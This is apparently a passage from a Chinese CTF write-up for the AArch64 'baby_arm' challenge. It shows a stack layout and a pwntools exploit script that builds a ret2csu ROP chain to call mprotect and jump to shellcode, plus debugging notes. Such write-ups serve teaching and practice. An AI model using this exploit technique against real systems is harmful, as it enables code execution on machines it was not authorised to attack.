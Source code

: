X19必须为0，因为获取函数地址时，X3, [X21,X19,LSL#3]，对X3 = X21+X19<<3进行操作
所以最终的栈空间分布为：

```
0x00000000004008cc	
0x0000000000000000
0x00000000004008ac	
0x0000000000000000
0x0000000000000001	
0x0000000000411098
0x0000000000000005	
0x0000000000001000
0x0000000000410000	
0x0000000000000000
0x0000000000411068
```

exp 代码：

```python
from pwn import *

binary = "./baby_arm"
context.log_level = "debug"
context.binary = binary

#io = process(["qemu-aarch64", binary])
io = process(["qemu-aarch64","-g", "1234", binary])

def csu_rop(call, x0, x1, x2):
    payload = flat(0x4008cc,0,0x4008ac,0,1,call,x2,x1,x0,0)
    return payload

if __name__ == "__main__":
    elf = ELF("./baby_arm")
    shellcode_addr = 0x411068
    shellcode = ''#asm(shellcraft.aarch64.sh())
    shellcode = shellcode.ljust(0x30,'\x00')
    shellcode += str(p64(elf.plt["mprotect"]))
    #shellcode += str(p64(0x411030))
    io.recvuntil("Name")
    raw_input()
    io.sendline(shellcode)

    payload = "a" * 72
    payload += str(csu_rop(shellcode_addr+0x30, 0x410000, 0x1000, 5))
    payload += str(flat(shellcode_addr))
    io.sendline(payload)
    io.interactive()
```

按照docker环境，利用target remote进行调试，断点设在0x40080c

sub_4007F0->main->0x4008cc（布置参数）->0x4008ac（call mprotect）->0x411068（调用shellcode）
